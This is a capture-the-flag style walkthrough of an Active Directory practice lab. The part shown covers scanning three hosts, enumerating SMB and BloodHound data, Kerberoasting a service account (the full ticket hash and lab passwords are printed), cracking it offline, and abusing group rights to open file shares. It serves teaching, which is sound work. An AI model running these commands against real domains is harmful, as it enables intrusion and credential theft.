In this walkthrough, we will be compromising Messenger, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from assumed-breach credentials for `kyoma` against three hosts: the domain controller DC01, a file server, FILESRV01, and a messaging server, MSGSRV01. `kyoma` can Kerberoast `svc_backup`, whose cracked password, plus `GenericWrite` and `AddSelf` over the `File Management` group, opens two shares on FILESRV01, and a notebook config in one of them holds a password that also works for `nae`. From a WinRM shell as `nae` on FILESRV01, RunasCs gives us a shell as `svc_backup`, a member of that host's local Backup Operators group, and backing up the registry hives over the network gives up its local SAM. A local `moeka` account in it shares its password with the domain account `moeka`, which opens a WinRM shell on MSGSRV01. A spreadsheet there holds `moeka`'s Output Messenger login, and a Ligolo-ng tunnel reaches the chat server's web client, where a help desk message carries `braun`'s password. `braun` holds `WriteDacl` over the domain, so we grant it DCSync rights, dump every hash from DC01, and log in as the domain Administrator.


Created by: [LainKusanagi](https://www.hacksmarter.org/courses/ff745240-1b1d-46fe-996a-0a567474fd15)

Let's get started.

## Objective

This is an "assumed breach" lab. Below are the starting credentials:

**Starting Credentials**

```
kyoma:FutureGadget17
```

## Scope

**Target (DC01):** `10.1.33.51`

**Target (FILESRV01):** `10.1.207.33`

**Target (MSGSRV01):** `10.1.150.10`

## RustScan (DC01)

We start with RustScan to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.33.51 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-11-19 23:25:12Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: sern.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: sern.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-11-19T23:26:41+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sern.local
| Issuer: commonName=DC01.sern.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T15:53:54
| Not valid after:  2027-04-13T15:53:54
| MD5:     49cf 0848 9164 092a 7a23 945e 8b1c d130
| SHA-1:   7cca 3bb9 cf7a ed26 410c 74c9 d181 97b8 409f 03e7
| SHA-256: c233 fce1 232d be2e 9ead 971c 17dc 998a 85ff 43f7 aaa7 12ae bcb3 f24d aafc bca0
| rdp-ntlm-info: 
|   Target_Name: SERN
|   NetBIOS_Domain_Name: SERN
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: sern.local
|   DNS_Computer_Name: DC01.sern.local
|   DNS_Tree_Name: sern.local
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-19T23:26:01+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
65340/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
65356/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
65366/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
65380/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, the global catalog on 3268, SMB on 445, RDP on 3389, and WinRM on 5985. Nmap reports 636 and 3269, the LDAPS and secure global catalog ports, as `tcpwrapped`: each accepts the connection and closes it without a response. The LDAP banner gives us the domain as `sern.local`, and the RDP certificate and NTLM info confirm the hostname as `DC01.sern.local`. We add both to `/etc/hosts` before continuing.

## RustScan (FILESRV01)

We scan FILESRV01 the same way.

```
rustscan -a 10.1.207.33 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-11-19T23:27:35+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SERN
|   NetBIOS_Domain_Name: SERN
|   NetBIOS_Computer_Name: FILESRV01
|   DNS_Domain_Name: sern.local
|   DNS_Computer_Name: FILESRV01.sern.local
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-19T23:26:56+00:00
| ssl-cert: Subject: commonName=FILESRV01.sern.local
| Issuer: commonName=FILESRV01.sern.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T16:45:11
| Not valid after:  2027-04-13T16:45:11
| MD5:     eae5 12f9 955d 1e07 8406 e09f e298 045a
| SHA-1:   ac8e 6a72 3d62 7449 baae b2cb c96f f1d3 a8d6 7274
| SHA-256: 67f9 844f 21e2 7141 ee4a 0b10 cd09 cd7c 9a01 6e9d 1f33 9b57 4dfb 4a20 7969 3ba7
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

FILESRV01 runs RPC on 135, NetBIOS on 139, SMB on 445, RDP on 3389, and WinRM on 5985. The RDP NTLM info names it `FILESRV01.sern.local`, a member of `sern.local`, and we add it to `/etc/hosts` as well.

## RustScan (MSGSRV01)

MSGSRV01 gets the same scan.

```
rustscan -a 10.1.150.10 -- -sC -sV
```

```
PORT     STATE SERVICE       REASON          VERSION
139/tcp  open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 126
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=MSGSRV01.sern.local
| Issuer: commonName=MSGSRV01.sern.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-12T18:57:57
| Not valid after:  2027-04-13T18:57:57
| MD5:     87cb b80b 126d 3a65 fc95 4fdd 9f46 d815
| SHA-1:   98b7 a94a 8e69 d794 dbbe 6d27 9795 058e 8289 6cb2
| SHA-256: 9f7f ce26 9c26 e33f 745d 4ead 8c04 d76b ecbe e3b0 9c1c ac55 69ed 7f28 0f4b a7be
|_ssl-date: 2026-11-19T23:26:57+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SERN
|   NetBIOS_Domain_Name: SERN
|   NetBIOS_Computer_Name: MSGSRV01
|   DNS_Domain_Name: sern.local
|   DNS_Computer_Name: MSGSRV01.sern.local
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-19T23:26:17+00:00
5985/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

MSGSRV01 runs NetBIOS on 139, SMB on 445, RDP on 3389, and WinRM on 5985, and its RDP NTLM info names it `MSGSRV01.sern.local`. We add it to `/etc/hosts` too, and save all three IPs to a `hosts.txt` file.

## SMB Enumeration

We check what `kyoma` can reach over SMB, running NetExec against every host in `hosts.txt`.

```
nxc smb hosts.txt -u 'kyoma' -p 'FutureGadget17' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\kyoma:FutureGadget17 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\kyoma:FutureGadget17 
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$                          Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$                              Default share
SMB         10.1.207.33     445    FILESRV01        DEV                             
SMB         10.1.207.33     445    FILESRV01        HR                              
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\kyoma:FutureGadget17 
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
```



*NetExec against all three hosts as kyoma, with READ on the DC01 logon shares and no access to DEV or HR on FILESRV01*

`kyoma` authenticates on all three hosts. DC01 gives READ on the standard logon shares, and FILESRV01 lists two non-default shares, `DEV` and `HR`, that `kyoma` cannot open.

## BloodHound Enumeration

One valid credential is enough to read the directory. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.33.51 -u 'kyoma' -p 'FutureGadget17' --bloodhound --collection All --dns-server 10.1.33.51
```

```
LDAP        10.1.33.51      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:sern.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.33.51      389    DC01             [+] sern.local\kyoma:FutureGadget17 
LDAP        10.1.33.51      389    DC01             Resolved collection methods: rdp, localadmin, session, trusts, group, acl, dcom, container, objectprops, psremote
LDAP        10.1.33.51      389    DC01             Done in 0M 17S
LDAP        10.1.33.51      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.33.51_2026-11-19_191902_bloodhound.zip
```

We import the data. `kyoma` holds no outbound object control that moves the chain, but `svc_backup` is Kerberoastable.



*BloodHound's Kerberoastable users query returning svc_backup*

## Access as svc_backup

Kerberoasting targets accounts with a Service Principal Name set. Any authenticated domain user can request a service ticket for an SPN, and part of that ticket is encrypted with a key derived from the service account's password. We request the ticket and crack that portion offline.

```
nxc ldap 10.1.33.51 -u 'kyoma' -p 'FutureGadget17' --kerberoasting svc_backup_kerb.txt
```

```
LDAP        10.1.33.51      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:sern.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.1.33.51      389    DC01             [+] sern.local\kyoma:FutureGadget17
LDAP        10.1.33.51      389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.1.33.51      389    DC01             [*] Total of records returned 1
LDAP        10.1.33.51      389    DC01             [*] sAMAccountName: svc_backup, memberOf: [], pwdLastSet: 2026-10-07 10:30:57.038014, lastLogon: 2026-10-09 16:20:09.637485
LDAP        10.1.33.51      389    DC01             $krb5tgs$23$*svc_backup$SERN.LOCAL$sern.local\svc_backup*$0648a2c7f8aaceb1e2074ac974c4046f$91962c2ffae84ebaf894da8553fc1315677e44f80f67bfffda443601b3ca61e4d51813af421b89c6a2c13b3c08b847252634d534709cdc6a0910d3cff4ff600e9cd08af808f97e368754339f55f927aafbaf704ebcb9dffb5d5c9e5f52c0d9a553d1cc4b7bfc9ff070acfb5da0c0ec3e43db456a5ac7eed9172ebb7634ec39dc415a667aa51452ecd7208f7d084f1a00c3e8582b920f3af5b97540fe983bc3e1be9d037d3f2f1faf689a32f9d1daff0cac76d2376d5acac41b977d47bc8f726df73aaee9d5562a0c087ecfa49f0a9cdc4b64a5cc1d4ebe3783a8c116a049814144eb678b3ddf2ec7091706459a9b5e12b6ec07054809a35bd7b21a45c73b57e84f4a161e024548ebec0ecb72a67c394d3ff78f68ef8008595b184cc52e90fc16ac8798bc9a72df7cae2a86d5100e57e096e0e64a92836c634ee0ae8bcbf5b98cf390de2b6eb43324cc26a274fdfc031898b259f39cb63d9fd787ae6d163719a7c7fc0f883ff0bbc0378c439d727dafa56a88ab69ea401c763e211466c072af417be8b6ebd79b3764860044149da379fd88fbaf9b6c50006cff548605a8a40ae7c6a58c5f6e8a2130bf0fe9f4cf0798b8fbc6d1e591e97084e70ac171a587294e8ec74f7c1edb6fc1edc6b4e2580f063c3c57658eaab8211e3765effaa4cfa28f57c24228a64eeaccc5db479db438296ea8164cbb911c2350c427e3bd2639ee975bfe3234b05c08e6353b23fe68bd8a6ac3a8686e0ce18758889af1d7a2f44e40397b401112df4eed54a879d11eaa1d5083db573eb5e059316c1e4df477bc7a2daeee0811b87b8dda67a3b8ecc910b5974ddf342133ecdf63e47a60c9259ad0752c6d4344b1bc820242b3202cf6452e8e0a32f71114437c9a7769811e636f01e8b6f23e7d3976e0903b7d90cfa543dc7788d01cd252129eb51c202d06753f49f56c01c4f7c594c51b1bcc7dc820b2edfc8330c6b19862cb89538d645fc16c85277a42465650b444d883f45fd628e15aede765c7f264332a8d17f73ff82c0fe980be44095410eea4c8c9357603dc974508307255254024327fcb05d4a8a209dff0832b690928d238fe532aa952e6b3df6a39b4d10fb94b281485521f7e8f9ce05b2c4ffb6ee5a50fc7b3d2e64520b997c951fe0f868d258e18614618352e0b1f92b4c9d160b2ec623192ce8bc9ec0ebbe28739b63155f138db6008fb6c0654eb5f0db9eb22c27e137c7df8d6d42f14e15fa72ed2b0b8f1fd192b475d313171ea8072d1e728bb596914ab0a8791993b56a086e13e434d908a3cee42476904bda2fe1c32b3c088b099b39fc91ed51eaa67d414da28e20574f0c2518da4cfb9d94183f7cff49a3e671857f3a4ff9262d1dbc0190258e99e4a43466834a19dad1f33d56afb561e5da0a4d2723ef6b581359b28
```



*Kerberoasting: svc_backup TGS hash captured via NetExec*

One ticket comes back, for `svc_backup`. We crack it with john.

```
john svc_backup_kerb.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ibm.2000         (?)     
1g 0:00:00:01 DONE (2026-11-19 19:43) 0.5780g/s 4317Kp/s 4317Kc/s 4317KC/s ibrashah..ibelongtorei
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



*john recovering ibm.2000 from the svc_backup TGS hash*

Cracked. We check the credentials against all three hosts.

```
nxc smb hosts.txt -u 'svc_backup' -p 'ibm.2000' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$          READ            Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$              READ,WRITE      Default share
SMB         10.1.207.33     445    FILESRV01        DEV                             
SMB         10.1.207.33     445    FILESRV01        HR                              
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
```



*Validating svc_backup credentials with NetExec*

`svc_backup` authenticates on all three hosts, and on FILESRV01 it reads `ADMIN$` and reads and writes `C$`.

We also check whether `svc_backup` can reach any host over WinRM.

```
nxc winrm hosts.txt -u svc_backup -p ibm.2000
```

```
WINRM       10.1.33.51      5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:sern.local)
WINRM       10.1.150.10     5985   MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local)
WINRM       10.1.207.33     5985   FILESRV01        [*] Windows Server 2022 Build 20348 (name:FILESRV01) (domain:sern.local)
WINRM       10.1.33.51      5985   DC01             [-] sern.local\svc_backup:ibm.2000
WINRM       10.1.150.10     5985   MSGSRV01         [-] sern.local\svc_backup:ibm.2000
WINRM       10.1.207.33     5985   FILESRV01        [-] sern.local\svc_backup:ibm.2000
```



*NetExec WinRM check across all three hosts, with svc_backup refused on each*

WinRM refuses `svc_backup` on all three hosts.

BloodHound shows `svc_backup` holds `GenericWrite` and `AddSelf` over the `File Management` group.



*BloodHound GenericWrite and AddSelf: svc_backup over File Management*

Either one lets `svc_backup` add itself: `GenericWrite` covers the group's member attribute, and `AddSelf` covers adding itself to the group.

```
net rpc group addmem 'FILE MANAGEMENT' 'svc_backup' -U 'sern.local'/'svc_backup'%'ibm.2000' -S '10.1.33.51'
```

The command returns silently, so we list the shares again to see what changed.

```
nxc smb hosts.txt -u 'svc_backup' -p 'ibm.2000' --shares
```

```
SMB         10.1.33.51      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:sern.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.207.33     445    FILESRV01        [*] Windows Server 2022 Build 20348 x64 (name:FILESRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.33.51      445    DC01             [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.207.33     445    FILESRV01        [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.33.51      445    DC01             [*] Enumerated shares
SMB         10.1.33.51      445    DC01             Share           Permissions     Remark
SMB         10.1.33.51      445    DC01             -----           -----------     ------
SMB         10.1.33.51      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.33.51      445    DC01             C$                              Default share
SMB         10.1.33.51      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.33.51      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.33.51      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.1.150.10     445    MSGSRV01         [*] Windows Server 2022 Build 20348 (name:MSGSRV01) (domain:sern.local) (signing:False) (SMBv1:None)
SMB         10.1.150.10     445    MSGSRV01         [+] sern.local\svc_backup:ibm.2000 
SMB         10.1.150.10     445    MSGSRV01         [*] Enumerated shares
SMB         10.1.150.10     445    MSGSRV01         Share           Permissions     Remark
SMB         10.1.150.10     445    MSGSRV01         -----           -----------     ------
SMB         10.1.150.10     445    MSGSRV01         ADMIN$                          Remote Admin
SMB         10.1.150.10     445    MSGSRV01         C$                              Default share
SMB         10.1.150.10     445    MSGSRV01         IPC$            READ            Remote IPC
SMB         10.1.207.33     445    FILESRV01        [*] Enumerated shares
SMB         10.1.207.33     445    FILESRV01        Share           Permissions     Remark
SMB         10.1.207.33     445    FILESRV01        -----           -----------     ------
SMB         10.1.207.33     445    FILESRV01        ADMIN$          READ            Remote Admin
SMB         10.1.207.33     445    FILESRV01        C$              READ,WRITE      Default share
SMB         10.1.207.33     445    FILESRV01        DEV             READ,WRITE      
SMB         10.1.207.33     445    FILESRV01        HR              READ,WRITE      
SMB         10.1.207.33     445    FILESRV01        IPC$            READ            Remote IPC
```

